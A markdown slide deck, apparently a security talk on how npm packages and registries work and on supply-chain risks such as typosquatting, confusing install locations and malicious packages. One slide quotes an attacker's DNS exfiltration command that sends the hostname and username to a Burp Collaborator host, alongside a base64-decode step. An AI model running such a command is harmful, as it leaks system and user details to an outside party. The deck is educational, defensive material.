


# A pastiche of packaging
## or, _understanding npm with style, elan, and verve_

---

# Overview

1. who?
1. key take aways
1. background
1. what are packages?
1. what are registries?
1. package Lifecycle
1. what can go wrong with packages
  1. typo squatting
  1. misunderstanding the install location
  1. malicious packages

- can easily be applied across ecosystems
- but specific details from npm

---

# who?

- Stéfan/Stefän/Steven/Istvan, don't care how you pronounce it
  - if you ask, I'll say the same thing
  - I don't name myself in English
  - Consequently everyone calls me something else, it's *lovely*
- Staff Engineering Manager for Product Security Engineering Red Team
- Foci: adversarial thought & action against infra/product at GitHub
- Interests: PLT, Logic (provers, &c)

---

# key take aways

1. packages are: `package.json` + "stuff" (code/complete garbage/whatever) + an install location
1. registries are: a collection of package metadata + tarballs
1. Lots and lots of footguns

---

# lesser take aways
## arguably more important ones

1. pastiche: an artistic work in a style that imitates that of another work, artist, or period.
1. elan: energy, style, and enthusiasm.
1. verve: vigor and spirit or enthusiasm.

---

# background

1. deep dive into npm
1. normal attacker TTPs and where to find them
1. tooling in the existing space

---

# background
## deep dive into npm

- GitHub owns NPM
- curious about the current state of affairs
- what are the current things that make up npm, packages
- what is our current exposure 

---

# background
## normal attacker TTPs and where to find them

- so what *do* actors normally do on npm (and package registries more generally)?
- _deep breath_ well...
- lots of name confusion (typo squatting, not understanding install location)
- cheap malware CDN & C2
- enticement & general watering hole

---

# background
## normal attacker TTPs and where to find them
### so it's easy to find them, right?

- for every 1-2 actors you see...
- you'll find 10x more normal folks
  - save for certain signals, like using Burp Collaborator
- there are only so many cool names out there...
  - so typosquat-like collisions are common
- no golden road...

---

# background
## tooling in the existing space

- we all know Dependency Checkers
  - _[BIG MUGATU ENERGY]_ So hot right now...
  - OWASP, Snyk, your brother
- what else exists?


---

# background
## tooling in the existing space

- what do we *most* care about with packages?
  1. package health?
  1. reputation?
  1. if there are security vulns?
  1. average time to fix the above?
- what do we care about for our own packages?
  1. leak internal packages?
  1. are using old/vuln packages
  1. sprawl?

---

# background
## tooling in the existing space

- OSSGadget: https://github.com/microsoft/OSSGadget
  - helps with most of the above, as well as some fun malicious code detectors
  - Michael Scovetta's work
- it-depends: https://github.com/trailofbits/it-depends
  - sbom generation & auditing
- pip-audit: https://pypi.org/project/pip-audit/
- cargo-audit: https://crates.io/crates/cargo-audit
  - scans for known-vulnerable versions
  - version of this for most languages
  - **nota bene**: known vulnerable != out of date

---

# packages

- so with all that said...
- what the heck even *are* packages?
  - each system is slightly different
  - can include transitive dependencies in different ways:
    - they can conflict, like pip does
    - they can be vendored, like npm does
      - this is why your `node_modules` grows so fast
- but for every system, some very basic parts
- here, npm

---

# packages

At their core, packages are just:

1. a `package.json` with metadata
  - only required items are `name`, `version`, and `main`
1. package data
  - nominally JavaScript, but possibly anything, including binaries
1. a location to hold the package
  - generally off of `registry.npmjs.com`, but can be any of: file system, a private registry, **GitHub directly**, **gists**...

---

# packages: _package.json_

Simplest:

```
{
    "name":"testpackagepasticheclass",
    "version":"1.0.0",
    "main":"foo"
}
```

---

# packages: more normal

```
{
  "dependencies": {
    "bs-fetch": "^0.6.2",
    "bs-platform": "^9.0.2",
    "bs-webapi": "^0.19.1",
    "child-reprocess": "^0.1.2",
    "node-fetch": "^2.6.1",
    "package-lock.json": "^1.0.0"
  }
}
```

---

# packages: wait a minute...

- that's correct
- **NOTHING MATTERS**
- `name`, `version` only needed to _publish_ a package
- but anything can _consume_ packages, in various states
- **also** be mindful of things like `bundleDependencies` vs `bundledDependencies`
- **_also_** whilst things can be labeled (like the `scripts` object), they can be used regardless

---

# packages: three major types

1. Unscoped packages: `express`
1. Scoped packages: `@woocommerce/e2e-environment` (scope: woocommerce, package: e2e-environment)
1. private packages: a scoped package with named contributors, either at the user or org level 

---

# packages: contents

```
[lojikil@lojikils-MBP](~/Code/levenshtein-reason/node_modules)
% cd ./bs-platform 
[lojikil@lojikils-MBP](~/Code/levenshtein-reason/node_modules/bs-platform)
% ls
./               .istanbul.yml    COPYING.LESSER   README.md        bspack.json      esy.json         lib/             scripts/
../              4061.json        Changes.md       bsb*             bsrefmt*         esy.lock/        linux/           vendor/
.gitattributes   CONTRIBUTING.md  DCO.md           bsc*             darwin/          freebsd/         openbsd/         win32/
.gitmodules      COPYING          LICENSE          bsconfig.json    docs/            jscomp/          package.json
[lojikil@lojikils-MBP](~/Code/levenshtein-reason/node_modules/bs-platform)
% file bsb
bsb: a /usr/bin/env node script text executable, ASCII text
[lojikil@lojikils-MBP](~/Code/levenshtein-reason/node_modules/bs-platform)
% ls darwin 
./              ../             bsb.exe*        bsb_helper.exe* bsc.exe*        ninja.COPYING   ninja.exe*      refmt.exe*
```

---

# packages: content agnostic

- npm doesn't _really_ care what's in them
  - bs-platform has lots of stuff
- think of it this way: it's literally just a `package.json` + a tarball
- danger zone: installation can trigger scripts which can run code contained within the tarball
- most pagkage systems are like this
  - go not as much

---

# packages: install location

- known install location?


---

# packages: install location

in order, npm will try:

```
  static get usage () {
    return [
      '[<@scope>/]<pkg>', // registry
      '[<@scope>/]<pkg>@<tag>', // registry with tag
      '[<@scope>/]<pkg>@<version>', // registry with version
      '[<@scope>/]<pkg>@<version range>', // registry with a range of versions
      '<alias>@npm:<name>', // a name of your choosing for another package
      '<folder>', // a local file system location
      '<tarball file>', // a local tar file
      '<tarball url>', // a remote tar file
      '<git:// url>', // a remote git repo
      '<github username>/<github project>', // a Github repo
    ]
  }
```
_from https://github.com/npm/cli/blob/d6c651c050634a89f25846340a440dfb49755f82/lib/install.js#L13_

---

# packages: key take aways

- packages are just `package.json` + cruft
- _generally_ installed via tarballs & a registry 
- _can_ be installed from virtually anywhere
- can contain virtually anything
- not _really_ safe to install (and there are flags to disable execution)

---

# registries

- technically: implements "CommonJS Compliant Package Registry specification"
- specifically: a webserver (generally) that returns package information
- can be set to a private registry:
  - globally: `npm set registry http://localhost:4873`
  - per-package: `npm install lodash --registry http://localhost:4873`
- for npm, generally CouchDB + S3

---

# registries: registry JSON

- registries return JSON
- registry JSON is: per-version `package.json` combined with additional metadata

```
{
	"_id": "testpackagepasticheclass",
	"name": "testpackagepasticheclass",
	"dist-tags": {
		"latest": "1.0.0"
	},
	"versions": {
		"1.0.0": {
			"name": "testpackagepasticheclass",
			"ve    rsion": "1.0.0",
			"main": "foo",
			"description": "A simple demonstration package, to be deleted later",
			"_id": "testpackagepasticheclass@1.0.0",
			"_nodeVersion": "16.3.0    ",
			"_npmVersion": "7.15.1",
			"dist": {
				"integrity": "sha512-E36XhAIXmKtAYw7RBD21sHgUDbHioOU2sttn00iquaLA+zftzmswnHkJJWBAtTit90SZHclf1PDM+3wglXuzDQ==",
				"shasum": "9b74    b0707e347e28dff6ff38eb8a6c6286d2771f",
				"tarball": "https://registry.npmjs.org/testpackagepasticheclass/-/testpackagepasticheclass-1.0.0.tgz",
				"fileCount": 3,
				"unp    ackedSize": 238,
				"npm-signature": "-----BEGIN PGP SIGNATURE-----\r\nVersion: OpenPGP.js v3.0.13\r\nComment: https://openpgpjs.org\r\n\r\nwsFcBAEBCAAQBQJhOfGaCRA    9TVsSAnZWagAAPvoQAIbtyJ4ajXdm2zDpRXJU\nS8zh/E9fjDILaUO81id1eSJMqHWKEfaA5JQEmQOR8CdG4fFsmIuduW4g/pyz\nMNhSqR/v7tEPZe9qbaQ+dB+CZpAilJtt3AQIXGVlzwN2QWo9hp7yUUQl    odmY\nhe+5CQh0S112Dq2y8YWjVB67pJzIEAhxVvw6jqjDiUMru+ypPjLYLRokHIzx\nJ3zAsyFqtV+njh0Y34grJE71RHVSizOIlwnlBtKNiwxgkOd8iDVFSZKwqHqk\nvk12DUa/V8ogNUtCysRJbT5RXln    SKZXrkCdBlI19D4YsS/8EX2Ecb1Gj5sRM\nCE5OI2rkvafFSuwWbRVSoqj/oi3D0nURXZXGOuvVdpBpcje3oPxmChoJjQzL\naajzJDIK4CpATGJnwbW0hXumJwSGsDctaFBdom2PeJa/bznM3e8GYiz6HjsO    \n+wpX4gjXp0h+jTU0M+hWBrY6rdcE8OSaUfYRXWn+IIr33SujhgQfZNW2I/bv\nsQqgbGie9vjrQ1ga9WuXUvl55T/Ij/g1d7F+2bbuTvV4NL21aVicYKoD9jid\nxGgLcenbpEXeRY4xgx+oKWEWuXoPhP7    TZeJdakxBRlCyyb1NcpOQ47C3OZ9E\nnh7y3IgaTuMLXs5UypXmzs709KNZnhFFniR6Gq5phfTsMdDa5AR+urJTm/mv\neghE\r\n=BUG6\r\n-----END PGP SIGNATURE-----\r\n"
			},
			"_npmUser": {
				"    name": "lojikil",
				"email": "lojikil@github.com"
			},
			"directories": {},
			"maintainers": [{
				"name": "lojikil",
				"email": "lojikil@github.com"
			}],
			"_npmOperationalInternal": {
				"ho    st": "s3://npm-registry-packages",
				"tmp": "tmp/testpackagepasticheclass_1.0.0_1631187353947_0.5082915914925075"
			},
			"_hasShrinkwrap": false
		}
	},
	"time": {
		"created": "202    1-09-09T11:35:53.947Z",
		"1.0.0": "2021-09-09T11:35:54.071Z",
		"modified": "2021-09-09T11:35:55.991Z"
	},
	"maintainers": [{
		"name": "lojikil",
		"email": "lojikil@github.com    "
	}],
	"description": "A simple demonstration package, to be deleted later",
	"readme": "# Overview\nA simple demonstration package, to be deleted later\n",
	"readmeF    ilename": "README.md"
}
```

---

# registries: interesting entries

- `versions` contains a per-version (based on the `version` string in our `package.json`) copy of the same data
- we leak the user's email address (this was a Bounty submission already this week...)
- we also bump items from the `package.json` into the registry:
  - version
  - description
  - any _README.md_ style files are added as the "readme" field
- lots of file metadata is available:
  - `"tarball":"https://registry.npmjs.org/testpackagepasticheclass/-/testpackagepasticheclass-1.0.0.tgz"`
  - `"fileCount":3`
  - `"unpackedSize":238`

---

# registries: tarballs

```
[lojikil@lojikils-MBP](~/Code/pastiche-npm/garbage)
% curl -O https://registry.npmjs.org/testpackagepasticheclass/-/testpackagepasticheclass-1.0.0.tgz && tar -zxvf *.tgz

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   326  100   326    0     0   2716      0 --:--:-- --:--:-- --:--:--  2694
x package/foo.js
x package/package.json
x package/README.md
```

---

# registries: naming is magic

- like on GitHub, users can name things whatever they wany
- this leads to fun bounty submissions:
- `https://registry.npmjs.org/logs`: not a logging leak (a logging package for node)
- `https://registry.npmjs.org/users`: not a users leak (a security holding package)
- `https://registry.npmjs.org/-`: not a mistake, someone is actively typosquatting a mistake

---

# registries: take aways

- registries are just a location to hold names + metadata + tarballs
- uses JSON extensively, which is mostly the same data + enrichment from `package.json`
- lots of information that's useful in post mortem
  - developer emails
  - scripts
  - tarballs to be unpacked

---

# tying it all together



---

# package lifecycle

- very simple lifecycle:
1. login to npm: `npm adduser`
1. create a `package.json` with at least a `name` and a `version`
1. `npm publish`
1. panic that you may have included something in the directory that you shouldn't have
1. quickly google how to delete a package from npm
1. it's all ruined now, this is your life

---

# package lifecycle: publishing

```
[lojikil@lojikils-MBP](~/Code/pastiche-npm/var)
% npm publish
npm notice
npm notice 📦  testpackagepasticheclass@1.0.0
npm notice === Tarball Contents ===
npm notice 63B README.md
npm notice 92B foo.js
npm notice 83B package.json
npm notice === Tarball Details ===
npm notice name:          testpackagepasticheclass
npm notice version:       1.0.0
npm notice filename:      testpackagepasticheclass-1.0.0.tgz
npm notice package size:  326 B
npm notice unpacked size: 238 B
npm notice shasum:        9b74b0707e347e28dff6ff38eb8a6c6286d2771f
npm notice integrity:     sha512-E36XhAIXmKtAY[...]PDM+3wglXuzDQ==
npm notice total files:   3
npm notice
+ testpackagepasticheclass@1.0.0
```

---

# package lifecycle: hashes & signatures

- `shasum` is literally just the SHA1SUM of the tarball
- integrity is the fingerprint of the package after it's been signed by npm
- can check the former rather simply:

```
[lojikil@lojikils-MBP](~/Code/pastiche-npm/garbage)
% shasum -a1 testpackagepasticheclass-1.0.0.tgz

9b74b0707e347e28dff6ff38eb8a6c6286d2771f  testpackagepasticheclass-1.0.0.tgz
```

---

# package lifecycle: installing

```
% npm i testpackagepasticheclass
testpackagepasticheclass

added 1 package, and audited 2 packages in 1s

found 0 vulnerabilities
[lojikil@lojikils-MBP](~/Code/pastiche-npm/garbage/blah)
% ls

./                 ../                node_modules/      package-lock.json  package.json
[lojikil@lojikils-MBP](~/Code/pastiche-npm/garbage/blah)
% cat package.json

{
  "dependencies": {
    "testpackagepasticheclass": "^1.0.0"
  }
}
```

---

# package lifecycle: the whole shebang

all the manual steps we've done previously, rolled into one command:

1. check `registry.npmjs.org` (or your specified equivalent) for the package name
1. download the resulting JSON
1. parse the JSON for the tarball location
1. retrieve the tarball from said location 
1. SHA1SUM the tarball to make sure it is the same as the registry JSON specifies
1. adds the entry to the current `package.json` (or creates one if it does not exist)
1. unpacks the tarball into `./node_modules/$PACKAGENAME`

---

# what can go wrong

- everyone speels thinks gud
- no one every mistypes anything
- all software is good 

---

# what can go wrong: names are footgun

let's look back at our `package.json`:

```
{
  "dependencies": {
    "bs-fetch": "^0.6.2",
    "bs-platform": "^9.0.2",
    "bs-webapi": "^0.19.1",
    "child-reprocess": "^0.1.2",
    "node-fetch": "^2.6.1",
    "package-lock.json": "^1.0.0"
  }
}
```
- Notice anything odd?

---

# what can go wrong: names are footgun

- `package-lock.json` is a version lockfile
- I must have accidentally typed `npm i p<tab>` and installed the **file name** as a _package_
- https://registry.npmjs.org/package-lock.json:

`"name":"package-lock.json","description":"You probably didn’t mean to install a package.",`

---

# what can go wrong: names are a footgun

- this has garnered some attention of late, with articles like https://www.bleepingcomputer.com/news/software/empty-npm-package-has-over-700-000-downloads-heres-why/
- basically, lots of people accidentally type `npm i -`, and `-` (yes, just a single hyphen) is a package
  - luckily, an _empty_ package
- https://registry.npmjs.org/-

---

# what can go: locations are a footgun

- `@lojikil/foobar` is a scoped package
- `lojikil/foobar` is a GitHub repo
  - Whilst they are _often_ 1:1, they need not be
- `/foobar` is a folder
- npm will attempt to find *anything* that looks like a tarball or a folder at a location
- and as noted above, everyone always spells everything perfectly, so this is fine

---

# what can go wrong: malicious packages



- `base64 -d<<<REALLYLONGBASE64STRINGHERE`
- `host -t A h_$HOSTNAME.u_$USER.$ACTOR_TAG.$BC`

---

# what can go wrong: malicious packages

```
Python 2.7.16 (default, Jun  5 2020, 22:59:21)
[GCC 4.2.1 Compatible Apple LLVM 11.0.3 (clang-1103.0.29.20) (-macos10.15-objc- on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 'REDACTEDBASE64STRING'.decode('base64')
'REDACTEDPREFIX.burpcollaborator.net\n'
```

1. attacker was slipping `burpcollaborator` into a package by Base64 encoding it
1. they then exfiltrated things via DNS queries
1. was _allegedly_ an org's Red Team being wayward

---

# what can go wrong: take aways

- no one mistypes anything ever, so it's fine
- no one misunderstands myriad & complex install locations, so it's fine too
- no one would lie on the internet about code intent


---

# don't feel smug

- before you feel smug for not using Node/npm...
- https://blog.rust-lang.org/2022/05/10/malicious-crate-rustdecimal.html
  - downloads a malicious binary
- https://arstechnica.com/information-technology/2022/08/10-malicious-python-packages-exposed-in-latest-repository-attack/
  - python...
  - this has happened a few times
- what if we implemented a blockchain of dependencies...
  - so. many. supply. chain. attacks. in. block. chain.
  - mostly focused on installing backdoors & swapping/adding keys

---

# what can we do about it?

- parse everything
  - these formats aren't complex, mostly JSON, TOML, YAML
- run tools for your stacks
  - OSSGadget is good across stacks, as is it-depends
- keep in mind where malice can live:
  - in package install scripts, for npm:
    - preinstall
    - install
    - postinstall
    - prepublish
    - preprepare
    - prepare
    - postprepare
  - in source code included
  - in source code downloaded

---

# parse everything

- I mean that
- wrote a custom JSON parser for ReasonML: https://github.com/lojikil/rosejson
- allows me to write nice ReasonML for both Native/Web:

```reasonml
let reducer = ((cnt, found), elem) => {
    if(found) {
        (cnt, found)
    } else {
        (cnt + 1, suspect_string_check(snd(elem) |> RoseJSON.to_string))
    }
}
switch(RoseJSON.member("scripts", pkgsrc)) {
    | RoseAssoc(scriptobj) => List.fold_left(reducer, (-1, false), scriptobj)
    | _ => (-1, false)
}
```

---

# that's it

## thanks for coming!

- Blathering: https://lojikil.github.io
- Tooting: @lojikil@mastodon.social
- Coding: https://github.com/lojikil
- Tweeting: https://twitter.com/lojikil

## questions?
